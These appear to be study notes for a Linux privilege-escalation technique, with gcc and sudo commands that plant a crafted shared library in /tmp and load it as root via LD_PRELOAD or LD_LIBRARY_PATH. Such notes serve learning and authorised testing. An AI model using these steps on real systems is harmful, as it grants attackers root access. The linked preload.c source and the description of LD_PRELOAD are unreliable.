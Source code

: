 Check for inherited environment variables: `sudo -l`

### LD_PRELOAD and LD_LIBRARY_PATH

LD_PRELOAD: Creates a shared object before any others when a program is run

1. Create a shared object using [preload.c](https://github.com/stephenrkell/liballocs/blob/master/src/preload.c): `gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c`
2. Create a path for a program to the new shared object: `sudo LD_PRELOAD=/tmp/preload.so [program you can run with sudo]`

LD_LIBRARY_PATH: Provides a list of directories where shared libraries are searched for first

1. Check which share libraries are used by the program: `ldd /usr/sbin/apache2`
2. Create a shared object with the name of one of the listed libraries: `gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c`
3. Run the program telling it to look at the directory where you created the object first: `sudo LD_LIBRARY_PATH=/tmp apache2`